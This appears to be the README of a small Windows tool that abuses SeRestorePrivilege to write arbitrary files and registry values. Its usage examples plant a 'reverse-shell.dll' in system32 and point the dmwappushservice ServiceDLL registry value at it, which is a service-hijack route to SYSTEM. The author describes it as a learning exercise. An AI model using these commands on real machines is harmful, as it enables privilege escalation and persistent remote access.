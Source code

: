 ## What is this tool

This tool is intended to abuse SeRestorePrivilege. It basically allows you to write files and registry values. It's far from a "complete" tool. It was developed to help me to understand better the concept of this privilege abuse.

Several pieces of code were copied from the presentation `[show me your privileges and I will lead you to SYSTEM]`.

## Usage

```
Usage:
        .\seprivilege-xpltr.exe filewrite <src-path> <dst-path>
        .\seprivilege-xpltr.exe regwrite <hkey> <subkey> <value-name> <data>

Examples:
        .\seprivilege-xpltr.exe filewrite "C:\Temp\reverse-shell.dll" "C:\Windows\system32\reverse-shell.dll"
        .\seprivilege-xpltr.exe regwrite hklm "SYSTEM\CurrentControlSet\Services\dmwappushservice\Parameters" ServiceDLL  "C:\Windows\system32\reverse-shell.dll"
```
